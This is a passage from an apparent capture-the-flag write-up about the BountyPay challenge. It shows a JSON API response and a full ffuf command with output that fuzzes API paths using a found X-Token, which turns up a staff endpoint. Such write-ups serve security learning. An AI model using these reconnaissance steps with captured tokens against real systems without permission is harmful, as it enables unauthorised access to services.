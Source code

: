 And I got some data back:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 01 Jun 2020 20:20:27 GMT
Content-Type: application/json
Connection: close
Content-Length: 81

{"account_id":"F8gHiqSdpK","owner":"Mr Brian Oliver","company":"BountyPay Demo "}
```

Knowing the token was valid for this API, I started fuzzing again, using the token in the headers. I found an interesting endpoint: 

```
# ffuf -u https://api.bountypay.h1ctf.com/api/FUZZ -w ~/lists/content_discovery_all.txt -ac -H 'X-Token: 8e9998ee3137ca9ade8f372739f062c1'                                                  
                                                                                                          
        /'___\  /'___\           /'___\                                                                   
       /\ \__/ /\ \__/  __  __  /\ \__/           
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                                             
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
                                                     
       v1.1.0-git                                
________________________________________________                                                          
                                                                                                          
 :: Method           : GET                                                                                
 :: URL              : https://api.bountypay.h1ctf.com/api/FUZZ                                           
 :: Header           : X-Token: 8e9998ee3137ca9ade8f372739f062c1                                          
 :: Follow redirects : false                     
 :: Calibration      : true                                                                               
 :: Timeout          : 10                            
 :: Threads          : 40                                                                                 
 :: Matcher          : Response status: 200,204,301,302,307,401,403                                       
________________________________________________                                                                                                                                                                     
                                                                                                                                                                                                                     
staff/                  [Status: 200, Size: 104, Words: 3, Lines: 1]
staff                   [Status: 200, Size: 104, Words: 3, Lines: 1]
:: Progress: [373535/373535] :: Job [1/1] :: 2146 req/sec :: Duration: [0:02:54] :: Errors: 4 ::
```
